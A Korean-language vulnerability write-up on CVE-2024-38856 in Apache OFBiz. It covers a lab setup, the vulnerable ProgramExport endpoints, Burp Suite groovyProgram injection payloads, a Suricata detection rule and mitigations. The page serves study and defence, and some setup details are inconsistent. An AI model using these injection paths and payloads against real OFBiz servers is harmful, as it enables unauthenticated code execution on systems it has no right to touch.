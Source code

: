 ```yaml
---
layout: default
title: cve-2024-38856
category: "Apache"
nav_order: 3
parent: cve
---
```


# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일(ProgramExport View)에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

## Apache OFBiz 18.12.04 는 Gradle 5.0.0 이상 버전을 사용
cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

## 주의 사항 : localhost 가 아닌, 가상환경에서 서버 구동 시, 해당 가상환경 ip를 설정에 등록
vi /usr/local/src/apache-ofbiz-18.12.04/framework/security/config/security.properties
## 옵션 변경
protect-view.preprocessor=
## 활성화 옵션
default.error.response.view=none:
## 아래에 추가
host-headers-allowed=localhost,192.168.56.1
block-external-host-requests=false
allow-program-export=true

## Apache OFBiz 18.12.04 실행
cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew ofbiz 

## ----- HomePage ----- ##
접속 : https://ip:8443/myportal/control/main
id : admin
password : ofbiz
```

<br>구현 된 홈페이지 (192.168.56.1:8443)

![](../../assets/images/cve/cve-2024-38856//homepage.PNG)

---

## 1.5 주요 내용
CVE-2024-38856의 핵심은 ProgramExport 엔드포인트가 인증 없이 접근 가능한 취약점
<br>이 엔드포인트는 외부에서 전달된 데이터를 Groovy Script로 실행할 수 있는 구조를 가지고 있어, 공격자가 특정 파라미터를 통해 코드 실행

{: .note-title }
> **ProgramExport**는 Apache OFBiz Framework에서 사용하는 Web Tools 중 하나로, 특정 기능이나 데이터를 처리 및 출력하는 데 사용한다. 이 엔드포인트는 주로 시스템 관리자가 다양한 데이터를 내보내거나 특정 프로그램을 통해 데이터 처리를 수행할 때 사용

<br> 

```java
String groovyScript = request.getParameter("groovyProgram");
GroovyShell shell = new GroovyShell();
shell.evaluate(groovyScript);
```

위 코드는 groovyProgram이라는 HTTP 요청 파라미터에 들어온 값을 GroovyShell로 실행하는 코드 <br>
입력된 값에 대한 검증이 없어 공격자가 악성 코드를 groovyProgram 파라미터에 넣으면 해당 코드가 서버에서 실행되어 시스템 명령어를 실행하거나 데이터를 유출

---

## 1.6 공격 재현
Tool : Burp Suite v2024

## ProgramExport 엔드포인트 URL 접근
{: .no_toc }

Apache OFBiz에서 악용될 수 있는 URL은 TestService, view, showDateTime, main, forgotPassword
- example1 : https://192.168.56.1:8443/webtools/control/TestService/ProgramExport
- example2 : https://192.168.56.1:8443/webtools/control/view/ProgramExport
- example3 : https://192.168.56.1:8443/webtools/control/showDateTime/ProgramExport
- example4 : https://192.168.56.1:8443/webtools/control/main/ProgramExport
- example5 : https://192.168.56.1:8443/webtools/control/forgotPassword/ProgramExport

![](../../assets/images/cve/cve-2024-38856/TestService.png)


## Burp Suite 사용하여 groovyProgram에 파라미터값 전달
{: .no_toc }

Burp Suite를 활용하여 payload에 groovyProgram 파라미터 값을 삽입 후 테스트 <br>
groovyProgram=throw new Exception('CVE-2024-38856 TEST by Bite98');

![](../../assets/images/cve/cve-2024-38856/print_cve.png) <br>


테스트 확인 후, 시스템 정보()를 출력하는 파라미터값을 넣어 공격 진행
- groovyProgram=throw new Exception("Thread State: " + Thread.currentThread().getState());
- groovyProgram=throw%20new%20Exception%28%22Thread%20State%3A%20%22%20%2B%20Thread.currentThread%28%29.getState%28%29%29%3B

{: .note-title }
> **Thread.currentThread().getState()** 함수는 현재 스레드의 상태를 확인하여 예외를 통해 정보를 반환

![](../../assets/images/cve/cve-2024-38856/print_thread.png)

---

## 대응 패턴 적용
{: .no_toc }

- 신규 ET 패턴 1건

```c
alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache OFBiz 버전 18.12.14 이상으로 업데이트
- ProgramExport 엔드포인트 인증 설정
- groovyProgram과 같은 파라미터가 코드 실행에 사용되지 않도록 검증 로직 추가

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html

